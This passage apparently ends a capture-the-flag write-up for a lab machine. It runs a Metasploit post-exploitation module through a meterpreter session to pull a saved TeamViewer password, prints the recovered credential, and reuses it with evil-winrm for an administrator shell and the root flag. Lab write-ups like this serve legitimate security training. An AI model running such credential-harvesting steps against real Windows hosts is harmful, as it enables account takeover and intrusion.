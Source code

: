 Set the session as our meterpreter session and run the exploit.

```bash
msf5 post(windows/gather/credentials/teamviewer_passwords) > set SESSION 1
SESSION => 1
msf5 post(windows/gather/credentials/teamviewer_passwords) > exploit
[*] Finding TeamViewer Passwords on REMOTE
[+] Found Unattended Password: !R3m0te!
```

We can use these as administrator credentials and login with evil-winrm.

![admin_shell](images/admin_shell.png)

## Root.txt

Then we can just get the root.txt flag in the same place as before.

![admin_flag](images/admin_flag.png)